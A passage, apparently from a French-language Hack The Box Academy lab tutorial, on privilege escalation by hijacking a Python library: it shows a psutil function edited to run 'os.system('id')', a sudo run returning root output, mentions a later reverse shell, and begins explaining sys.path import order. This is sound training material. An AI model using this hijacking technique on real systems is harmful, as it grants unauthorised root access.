 ```
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...

```

Nous pouvons maintenant exécuter le script avec `sudo`et vérifier si nous obtenons le résultat souhaité.

#### Escalade des privilèges

  Escalade des privilèges

```
htb-student@lpenix:~$ sudo /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 79.22%

```

Succès. Comme nous pouvons le voir à partir du résultat ci-dessus, nous avons réussi à détourner la bibliothèque et à faire exécuter notre code à l'intérieur de la `virtual_memory()`fonction en tant que `root`. Maintenant que nous avons le résultat souhaité, nous pouvons à nouveau éditer la bibliothèque, mais cette fois, insérez un shell inversé qui se connecte à notre hôte en tant que `root`.

* * * * *

Chemin de la bibliothèque
-------------------------

En Python, chaque version a un ordre spécifié dans lequel les bibliothèques ( `modules`) sont recherchées et importées. L'ordre dans lequel Python importe `modules`depuis est basé sur un système de priorité, ce qui signifie que les chemins situés en haut de la liste sont prioritaires sur ceux situés en bas de la liste. Nous pouvons le voir en lançant la commande suivante :

#### Liste PYTHONPATH

  Liste PYTHONPATH

```
htb-student@lpenix:~$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages

```
